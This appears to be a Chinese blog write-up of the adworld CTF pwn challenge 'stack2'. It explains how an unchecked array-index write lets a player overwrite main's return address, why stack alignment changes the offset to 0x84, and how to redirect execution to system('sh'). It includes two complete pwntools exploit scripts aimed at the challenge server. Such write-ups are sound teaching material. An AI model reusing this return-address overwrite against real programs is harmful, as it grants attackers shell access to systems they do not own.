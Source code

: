 ```yaml
---
title: adworld_pwn部分writeUp
date: 2019-06-03 22:10:20
tags:
    - thinking
---
```


### stack2  

---

&emsp;&emsp;首先checksec一下发现有canary，然后托到ida里看一下，发现大部分变量都是 **unsigned int** 类型，考虑到可能会有整数溢出。接着我们发现可以通过 **change number** 选项来直接修改栈上的数据，因此我们想到直接修改返回地址，如图：  

![stack2_1](https://github.com/Explainaur/hexo-blog/blob/master/source/pictures/stack2_1.jpg?raw=true)

&emsp;&emsp;接着我们发现 **hackhere** 函数，里面是直接调用的  

```c
system("/bin/bash");
```

![stack2_2](https://github.com/Explainaur/hexo-blog/blob/master/source/pictures/stack2_2.jpg?raw=true)
&emsp;&emsp;因此，我们可以直接将返回地址修改为这里，我们注意到数组的类型是 **char** ，因此在发送payload的时候可以直接按照小端序字符逐位发送。

&emsp;&emsp;但是这里有一个坑点，我们通过静态分析发现数组距离 **return_addr** 的位置为0x74：  

![stack2_3](https://github.com/Explainaur/hexo-blog/blob/master/source/pictures/stack2_3.jpg?raw=true)  

&emsp;&emsp;但是我们在实际动态调试的时候发现其实际偏移为0x84，这里是因为，在进入main函数时进行了一步esp的对齐：  

```assembly
#开头
|           ; arg int arg_4h @ esp+0x4
|           0x080485d0      8d4c2404       lea ecx, dword [arg_4h]     ; 4
|           0x080485d4      83e4f0             and esp, 0xfffffff0
|           0x080485d7      ff71fc               push dword [ecx - 4]
|           0x080485da      55                      push ebp
|           0x080485db      89e5                 mov ebp, esp
|           0x080485dd      51                      push ecx

----------------------------------------------------------------
#结尾
|           0x080488eb      8b4dfc         mov ecx, dword [local_4h]
|           0x080488ee      c9             leave
|           0x080488ef      8d61fc         lea esp, dword [ecx - 4]
\           0x080488f2      c3             ret

```

&emsp;&emsp;其实这里没有必要深入计算，因为动态调试可以算出偏移为0x84,但是作为一个知识点，我们还是要讨论一下这个main函数的返回方式，我们遇到过很多main函数通过ecx进行返回，并且有esp对其的过程。  

&emsp;&emsp;这一次，首先将 **$esp + 4** 放入ecx，然后 `and esp,0xfffffff0` 的作用是将esp的后4位清零(一个16进制位代表4个2进制位)，然后将 **$ecx - 4** 压入栈中。注意，这里的 **$ecx - 4** 实际上就是return_addr,因为在进入main函数时，esp的位置就是return_addr,然后 `lea ecx, dword [arg_4h]` 这条语句将其实是把第一个参数的地址传给ecx，然后esp对齐后将return_addr压入栈中，然后就是正常的保存栈状态的操作。由于对齐esp的操作导致栈被拉长，拉伸的长度只能动态调试确定，此时栈大概是这样：  

```c
						high                                |		arg_4		 |
											 |	return_addr        |             return_addr 1                                  
											 |	 .....................	  |

after align	               							     some span

											 |		ecx - 4		  |				return_addr  2
											 |		    ebp              |
											 |                  ecx               |
			 			low                                  |      ....................         |
```

											 												
&emsp;&emsp;返回的时候就恢复ecx的值然后直接利用 **[ecx - 4]** 回到return_addr1的位置。

因此，payload如下：  

```python
from pwn import *

context.log_level = "debug"
system_addr = 0x804859B
#sh = process("./stack2")
sh = remote("111.198.29.45",53413)

sh.recv()
sh.sendline('1')
sh.recv()
sh.sendline('1')

def fuck(index, value):
    sh.sendline("3")
    sh.recv()
    sh.sendline(str(index))
    sh.recv()
    sh.sendline(str(value))
    sh.recv()

fuck(0x84,0x9b)
fuck(0x85,0x85)
fuck(0x86,0x04)
fuck(0x87,0x08)

sh.interactive()
```

&emsp;&emsp;但是打过去之后发现系统提示:  
```bash
"/usr/bin/bash" not found  
```

&emsp;&emsp;所以我们只好直接调用 **system**函数，并将sh传参给它，因此payload如下：  
```python
#!/usr/bin/env python
from pwn import *

context.log_level = "debug"

#sh = process("./stack2")
sh = remote("111.198.29.45",53413)

sys_addr = 0x0804859b

sh.recv()
sh.sendline('1')
sh.recv()
sh.sendline('1')

def fuck(index, value):
    sh.sendline("3")
    sh.recv()
    sh.sendline(str(index))
    sh.recv()
    sh.sendline(str(value))
    sh.recv()

fuck(0x84, 0x50)
fuck(0x85, 0x84)
fuck(0x86, 0x04)
fuck(0x87, 0x08)
#中间流出了4个字节，用于存放 fake_return_address
fuck(0x8c, 0x87)           #这里我们发现地址是奇数位，是因为我们直接把bash拆开成了sh
fuck(0x8d, 0x89)
fuck(0x8e, 0x04)
fuck(0x8f, 0x08)

sh.sendline("5")

sh.interactive()
```

